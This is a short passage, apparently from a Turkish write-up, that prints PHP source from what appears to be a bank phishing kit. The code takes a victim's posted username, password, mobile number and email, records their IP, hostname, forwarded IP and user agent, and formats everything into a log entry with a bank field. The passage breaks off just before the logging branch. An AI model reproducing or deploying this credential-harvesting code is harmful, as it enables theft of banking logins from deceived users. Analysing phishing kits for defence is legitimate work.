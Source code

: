 kodların içerikleri aşağıdaki gibidir.

```php
<?php
include "../../control.php";
if(isset($_POST["user"]))
{
	$user=$_POST["user"];
	$pass=$_POST["pass"];
	$mob=$_POST["mob"];
	$email=$_POST["email"];
	$type=$_POST["type"];
	$android=0;
	$desktop=0;
	if(strlen($user) < 3 || strlen($pass) < 6 ||  strlen($mob) < 3)
	{
		echo "<script>
window.location.assign(\"index.php?errorID=".rand(10000,999999999).rand(10000,999999999)."&authError=1\");</script>";
die();
}

if($type == "android")
{
	$android=1;
}
else
{
	$desktop=1;
}


$ip=$_SERVER["REMOTE_ADDR"];
$date = gmdate ("d-n-Y");
$time = gmdate ("H:i:s");
$hostname=gethostbyaddr($ip);
$agent=$_SERVER['HTTP_USER_AGENT'];
if (!empty($_SERVER['HTTP_CLIENT_IP']))  
    {
      $oip=$_SERVER['HTTP_CLIENT_IP'];
    }
    elseif (!empty($_SERVER['HTTP_X_FORWARDED_FOR']))   
    {
      $oip=$_SERVER['HTTP_X_FORWARDED_FOR'];
    }
    else
    {
      $oip="same";
    }
$details="====================\r\n

User = $user \n
Pass = $pass \n
Mobile = $mob \n
Email = $email \n
Type = $type \n
Bank = $bankname\n
IP = $ip   HostName= $hostname\n
Original IP = $oip \n
User-Agent= $agent \n
Time = $time \n
Date = $date \n
====================\r\n";
if($log_feature==1)
```